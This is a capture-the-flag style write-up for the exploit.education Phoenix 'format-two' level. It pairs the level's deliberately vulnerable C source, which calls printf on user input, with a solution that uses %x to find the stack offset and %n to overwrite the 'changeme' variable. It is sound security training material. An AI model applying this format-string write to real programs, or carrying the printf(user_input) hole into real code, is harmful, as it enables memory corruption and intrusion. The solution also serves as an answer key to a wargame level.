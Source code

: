 # Format Two

## Code

```
/*
 * phoenix/format-two, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * What kind of flower should never be put in a vase?
 * A cauliflower.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[256];

  printf("%s\n", BANNER);

  if (argc > 1) {
    memset(buf, 0, sizeof(buf));
    strncpy(buf, argv[1], sizeof(buf));
    bounce(buf);
  }

  if (changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    puts("Better luck next time!\n");
  }

  exit(0);
}
```

## Solution
In this case we need to use the format string vulnerability to modify the changeme variable. first we need to locate the address of changeme, using objdump and searching for the compare.

then we need to find the exact number that retrive our value we give as first input:

```
./format-two $(python -c 'import struct; print("AAAA" + "%x"*12)')
```

You will see that the 12th parameter is "41414141", our string in hex.

Then we will use the %n to write the length of the string in change me, with this:

```
./format-two $(python -c 'import struct; print(struct.pack("<I", 0x8049868) + "%x"*11 + "%n")')
```
